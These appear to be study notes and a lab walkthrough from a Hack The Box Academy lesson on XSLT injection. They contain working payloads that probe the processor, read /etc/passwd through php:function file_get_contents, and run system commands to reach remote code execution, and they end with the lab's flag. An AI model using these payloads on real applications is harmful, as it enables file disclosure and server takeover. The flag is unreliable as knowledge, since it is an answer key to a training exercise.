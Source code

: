 ```yaml
---
sticker: lucide//languages
---
```


# Exploiting XSLT Injection

After discussing some basics and use cases for XSLT, let us dive into exploiting XSLT injection vulnerabilities.&#x20;

***

### Identifying XSLT Injection

Our sample web application displays basic information about some Academy modules:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_1.png)

At the bottom of the page, we can provide a username that is inserted into the headline at the top of the list:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_2.png)

As we can see, the name we provide is reflected on the page. Suppose the web application stores the module information in an XML document and displays the data using XSLT processing. In that case, it might suffer from XSLT injection if our name is inserted without sanitization before XSLT processing. To confirm that, let us try to inject a broken XML tag to try to provoke an error in the web application. We can achieve this by providing the username `<`:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_3.png)

As we can see, the web application responds with a server error. While this does not confirm that an XSLT injection vulnerability is present, it might indicate the presence of a security issue.

***

### Information Disclosure

We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

The web application provides the following response:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_4.png)

Since the web application interpreted the XSLT elements we provided, this confirms an XSLT injection vulnerability. Furthermore, we can deduce that the web application seems to rely on the `libxslt` library and supports XSLT version `1.0`.

***

### Local File Inclusion (LFI)

We can try to use multiple different functions to read a local file. Whether a payload will work depends on the XSLT version and the configuration of the XSLT library. For instance, XSLT contains a function `unparsed-text` that can be used to read a local file:

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, it was only introduced in XSLT version 2.0. Thus, our sample web application does not support this function and instead errors out. However, if the XSLT library is configured to support PHP functions, we can call the PHP function `file_get_contents` using the following XSLT element:

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

Our sample web application is configured to support PHP functions. As such, the local file is displayed in the response:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_5.png)

***

### Remote Code Execution (RCE)

If an XSLT processor supports PHP functions, we can call a PHP function that executes a local system command to obtain RCE. For instance, we can call the PHP function `system` to execute a command:

```xml
<xsl:value-of select="php:function('system','id')" />
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_6.png)

## Question

***

![](Pasted%20image%2020250212153714.png)

Let's begin by identifying if the web application is vulnerable to XSLT:

![](Pasted%20image%2020250212153742.png)

If we use a test username, we can see it gets injected into the top side of the website, let's use `<` and check if an error occurs:

![](Pasted%20image%2020250212153834.png)

Page is broken, which means its vulnerable to XSLT, we can get RCE by submitting the following payload:

```xml
<xsl:value-of select="php:function('system','id')" />
```

![](Pasted%20image%2020250212153929.png)

We got RCE, let's read `/` directory:

```xml
<xsl:value-of select="php:function('system','ls /')" />
```

![](Pasted%20image%2020250212153953.png)

Found our flag:

```xml
<xsl:value-of select="php:function('system','cat /flag.txt')" />
```

![](Pasted%20image%2020250212154014.png)

Flag is:

```
HTB{3a4fe85c1f1e2b61cabe9836a150f892}
```
